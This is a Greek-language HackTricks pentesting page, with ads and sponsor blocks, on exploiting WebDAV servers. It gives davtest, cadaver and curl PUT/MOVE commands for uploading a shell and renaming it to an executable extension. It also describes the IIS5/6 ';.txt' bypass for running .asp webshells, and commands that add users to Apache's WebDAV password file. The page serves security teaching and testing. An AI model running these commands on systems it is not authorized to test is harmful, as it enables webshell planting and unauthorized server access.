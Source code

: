 # WebDav

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
Χρησιμοποιήστε [**Trickest**](https://trickest.com/?utm_source=hacktricks\&utm_medium=text\&utm_campaign=ppc\&utm_content=put-method-webdav) για να δημιουργήσετε και να ** αυτοματοποιήσετε ροές εργασίας** που υποστηρίζονται από τα **πιο προηγμένα** εργαλεία της κοινότητας.\
Αποκτήστε πρόσβαση σήμερα:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=put-method-webdav" %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Όταν ασχολείστε με έναν **HTTP Server με WebDav** ενεργοποιημένο, είναι δυνατόν να **χειριστείτε αρχεία** αν έχετε τα σωστά **διαπιστευτήρια**, που συνήθως επαληθεύονται μέσω **HTTP Basic Authentication**. Η απόκτηση ελέγχου σε έναν τέτοιο server συχνά περιλαμβάνει την **ανάρτηση και εκτέλεση ενός webshell**.

Η πρόσβαση στον server WebDav απαιτεί συνήθως **έγκυρα διαπιστευτήρια**, με το [**WebDav bruteforce**](../../generic-hacking/brute-force.md#http-basic-auth) να είναι μια κοινή μέθοδος για την απόκτησή τους.

Για να ξεπεράσετε περιορισμούς στην ανάρτηση αρχείων, ειδικά εκείνους που αποτρέπουν την εκτέλεση server-side scripts, μπορείτε να:

* **Ανεβάσετε** αρχεία με **εκτελέσιμες επεκτάσεις** απευθείας αν δεν περιορίζονται.
* **Μετονομάσετε** τα ανεβασμένα μη εκτελέσιμα αρχεία (όπως .txt) σε εκτελέσιμη επέκταση.
* **Αντιγράψετε** τα ανεβασμένα μη εκτελέσιμα αρχεία, αλλάζοντας την επέκτασή τους σε μία που είναι εκτελέσιμη.

## DavTest

**Davtest** προσπαθεί να **ανεβάσει αρκετά αρχεία με διαφορετικές επεκτάσεις** και **ελέγχει** αν η επέκταση είναι **εκτελέσιμη**:
```bash
davtest [-auth user:password] -move -sendbd auto -url http://<IP> #Uplaod .txt files and try to move it to other extensions
davtest [-auth user:password] -sendbd auto -url http://<IP> #Try to upload every extension
```
![](<../../.gitbook/assets/image (851).png>)

Αυτό δεν σημαίνει ότι οι **.txt** και **.html επεκτάσεις εκτελούνται**. Αυτό σημαίνει ότι μπορείτε να **έχετε πρόσβαση σε αυτά τα αρχεία** μέσω του διαδικτύου.

## Cadaver

Μπορείτε να χρησιμοποιήσετε αυτό το εργαλείο για να **συνδεθείτε στον διακομιστή WebDav** και να εκτελέσετε ενέργειες (όπως **ανέβασμα**, **μετακίνηση** ή **διαγραφή**) **χειροκίνητα**.
```
cadaver <IP>
```
## Αίτημα PUT
```
curl -T 'shell.txt' 'http://$ip'
```
## Αίτημα MOVE
```
curl -X MOVE --header 'Destination:http://$ip/shell.php' 'http://$ip/shell.txt'
```
<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
Χρησιμοποιήστε [**Trickest**](https://trickest.com/?utm_source=hacktricks\&utm_medium=text\&utm_campaign=ppc\&utm_content=put-method-webdav) για να δημιουργήσετε και να **αυτοματοποιήσετε ροές εργασίας** με τη βοήθεια των **πιο προηγμένων** εργαλείων της κοινότητας.\
Αποκτήστε πρόσβαση σήμερα:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=put-method-webdav" %}

## IIS5/6 WebDav Ευπάθεια

Αυτή η ευπάθεια είναι πολύ ενδιαφέρουσα. Το **WebDav** **δεν επιτρέπει** να **ανεβάσετε** ή να **μετονομάσετε** αρχεία με την επέκταση **.asp**. Αλλά μπορείτε να **παρακάμψετε** αυτό **προσθέτοντας** στο τέλος του ονόματος **";.txt"** και το αρχείο θα **εκτελείται** σαν να ήταν αρχείο .asp (μπορείτε επίσης να **χρησιμοποιήσετε ".html" αντί για ".txt"** αλλά **ΜΗΝ ξεχάσετε το ";"**).

Στη συνέχεια, μπορείτε να **ανεβάσετε** το shell σας ως αρχείο ".**txt"** και να **αντιγράψετε/μετακινήσετε το σε ένα αρχείο ".asp;.txt"**. Όταν αποκτήσετε πρόσβαση σε αυτό το αρχείο μέσω του web server, θα **εκτελείται** (το cadaver θα πει ότι η ενέργεια μεταφοράς δεν λειτούργησε, αλλά λειτούργησε).

![](<../../.gitbook/assets/image (1092).png>)

## Μετά τα διαπιστευτήρια

Αν το Webdav χρησιμοποιούσε έναν Apache server, θα πρέπει να κοιτάξετε τις ρυθμισμένες τοποθεσίες στον Apache. Συνήθως:\
\&#xNAN;_**/etc/apache2/sites-enabled/000-default**_

Μέσα σε αυτό μπορείτε να βρείτε κάτι σαν:
```
ServerAdmin webmaster@localhost
Alias /webdav /var/www/webdav
<Directory /var/www/webdav>
DAV On
AuthType Digest
AuthName "webdav"
AuthUserFile /etc/apache2/users.password
Require valid-user
```
Όπως μπορείτε να δείτε, υπάρχουν τα αρχεία με τα έγκυρα **credentials** για τον **webdav** διακομιστή:
```
/etc/apache2/users.password
```
Μέσα σε αυτούς τους τύπους αρχείων θα βρείτε το **username** και ένα **hash** του κωδικού πρόσβασης. Αυτά είναι τα διαπιστευτήρια που χρησιμοποιεί ο διακομιστής **webdav** για να πιστοποιεί τους χρήστες.

Μπορείτε να προσπαθήσετε να **crack** τα, ή να **προσθέσετε περισσότερα** αν για κάποιο λόγο θέλετε να **access** τον διακομιστή **webdav**:
```bash
htpasswd /etc/apache2/users.password <USERNAME> #You will be prompted for the password
```
Για να ελέγξετε αν τα νέα διαπιστευτήρια λειτουργούν, μπορείτε να κάνετε:
```bash
wget --user <USERNAME> --ask-password http://domain/path/to/webdav/ -O - -q
```
## Αναφορές

* [https://vk9-sec.com/exploiting-webdav/](https://vk9-sec.com/exploiting-webdav/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
Χρησιμοποιήστε [**Trickest**](https://trickest.com/?utm_source=hacktricks\&utm_medium=text\&utm_campaign=ppc\&utm_content=put-method-webdav) για να δημιουργήσετε και να **αυτοματοποιήσετε ροές εργασίας** με τη βοήθεια των **πιο προηγμένων** εργαλείων της κοινότητας.\
Αποκτήστε πρόσβαση σήμερα:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=put-method-webdav" %}
